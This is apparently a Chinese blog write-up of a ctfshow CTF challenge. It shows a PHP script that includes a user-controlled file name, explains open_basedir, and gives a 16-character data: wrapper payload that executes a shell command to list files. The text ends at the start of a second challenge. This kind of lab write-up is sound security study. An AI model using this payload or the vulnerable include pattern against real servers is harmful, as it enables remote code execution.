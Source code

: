 ﻿---
title: ctfshow baby杯
categories: 赛题wp
---
# 完美的缺点


```php
<?php
highlight_file(__FILE__);
error_reporting(0);
ini_set('open_basedir', '/var/www/html/');

$file_name = substr($_GET['file_name'], 0,16);
$file_content=substr($_GET['file_content'], 0,32);

file_put_contents('/c/t/f/s/h/o/w/'.$file_name, $file_content);

if(file_get_contents('php://input')==='ctfshow'){
    include($file_name);
}
```

ini_set()用来设置php.ini的值，在函数执行的时候生效，脚本结束后，设置失效。无需打开php.ini文件，就能修改配置。函数用法如下:
```php
ini_set ( string $varname , string $newvalue ) : string
```

`Open_basedir`是PHP设置中为了`防御PHP跨目录进行文件（目录）读写的方法`，`所有PHP中有关文件读、写的函数都会经过open_basedir的检查。`

Open_basedir实际上是`一些目录的集合`，在定义了open_basedir以后，php可以读写的文件、目录都`将被限制在这些目录中`

 一般情况下，我们最多可以绕过open_basedir的限制对其进行列目录。绕过open_basedir进行读写文件危害较大，在php5.3以后很少有能够绕过open_basedir读写文件的方法。

---
思路：所以首先限制了读写目录，对参数file_name长度进行限制，看到file_put_contents更改了目录，所以写文件已经不可能了，只能用到include

想到伪协议 学习到了data的新姿势

![](https://img-blog.csdnimg.cn/20210605210946779.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
所以构造：
```
file_name=data;,<?=`nl *`;
```
正好16长度

![](https://img-blog.csdnimg.cn/20210605211010440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---

# Baby_php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-05-31 13:40:37
# @Last Modified by:   h1xa
# @Last Modified time: 2021-05-31 16:36:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
```